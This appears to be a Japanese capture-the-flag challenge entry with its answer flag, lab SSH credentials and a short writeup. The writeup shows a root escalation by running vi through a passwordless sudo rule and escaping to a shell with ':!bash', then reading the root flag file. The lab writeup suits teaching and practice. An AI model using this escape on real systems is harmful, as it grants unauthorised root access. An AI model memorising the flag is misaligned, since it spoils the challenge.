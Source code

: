 # web: Burning Fox
## Question

flag.txtはどこ?
UserName: raiders_student, Password: SecureP@ss24, Port: 22

## Difficulty
- `easy`

## Flag
```
RaidersCTF{sud0_root_acc3ss_gr4nt3d}
```

## Points
- `100`

## Writeup
```
# ssh raiders_student@IP

# sudo -l \\ sudoで使用できるコマンドを見ることができる
(ALL) NOPASSWD: /usr/bin/vi \\ viをroot権限で使用できることがわかる

# sudo vi
:!bash

# cat /root/.flag.txt \\ これでflagが表示される
```

## Author
- `towa`